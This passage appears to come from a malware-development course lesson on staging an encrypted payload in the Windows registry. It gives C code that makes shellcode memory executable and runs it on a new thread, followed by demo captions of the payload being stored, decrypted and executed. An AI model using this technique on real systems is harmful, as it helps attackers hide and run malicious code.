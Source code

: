 ```
    memset(pDecryptedShellcode, '\0', sDecryptedShellcodeSize);

    if (!VirtualProtect(pShellcodeAddress, sDecryptedShellcodeSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
        printf("[!] VirtualProtect Failed With Error : %d \n", GetLastError());
        return FALSE;
    }

    printf("[#] Press <Enter> To Run ... ");
    getchar();

    if (CreateThread(NULL, NULL, pShellcodeAddress, NULL, NULL, NULL) == NULL) {
        printf("[!] CreateThread Failed With Error : %d \n", GetLastError());
        return FALSE;
    }

    return TRUE;
}


```
### **Writing To The Registry - Demo**

Before executing the compiled code shown above, the registry key looks like this:

[![](31%20Payload%20Staging%20-%20Windows%20Registry%20e777de605e884adf970e64206c5d249f/registry-demo-1.png)](31%20Payload%20Staging%20-%20Windows%20Registry%20e777de605e884adf970e64206c5d249f/registry-demo-1.png)After running the program, a new registry string value is created with the RC4 encrypted payload.

[![](31%20Payload%20Staging%20-%20Windows%20Registry%20e777de605e884adf970e64206c5d249f/registry-demo-2.png)](31%20Payload%20Staging%20-%20Windows%20Registry%20e777de605e884adf970e64206c5d249f/registry-demo-2.png)Double-clicking on `MaldevAcademy` will show the payload in HEX and ASCII format.

[![](31%20Payload%20Staging%20-%20Windows%20Registry%20e777de605e884adf970e64206c5d249f/registry-demo-3.png)](31%20Payload%20Staging%20-%20Windows%20Registry%20e777de605e884adf970e64206c5d249f/registry-demo-3.png)### **Reading The Registry - Demo**

The program begins by reading the encrypted payload from the Registry.

[![](31%20Payload%20Staging%20-%20Windows%20Registry%20e777de605e884adf970e64206c5d249f/registry-read-demo-1.png)](31%20Payload%20Staging%20-%20Windows%20Registry%20e777de605e884adf970e64206c5d249f/registry-read-demo-1.png)Next, the program will decrypt the payload.

[![](31%20Payload%20Staging%20-%20Windows%20Registry%20e777de605e884adf970e64206c5d249f/registry-read-demo-2.png)](31%20Payload%20Staging%20-%20Windows%20Registry%20e777de605e884adf970e64206c5d249f/registry-read-demo-2.png)Finally, the decrypted payload is executed.

[![](31%20Payload%20Staging%20-%20Windows%20Registry%20e777de605e884adf970e64206c5d249f/registry-read-demo-3.png)](31%20Payload%20Staging%20-%20Windows%20Registry%20e777de605e884adf970e64206c5d249f/registry-read-demo-3.png)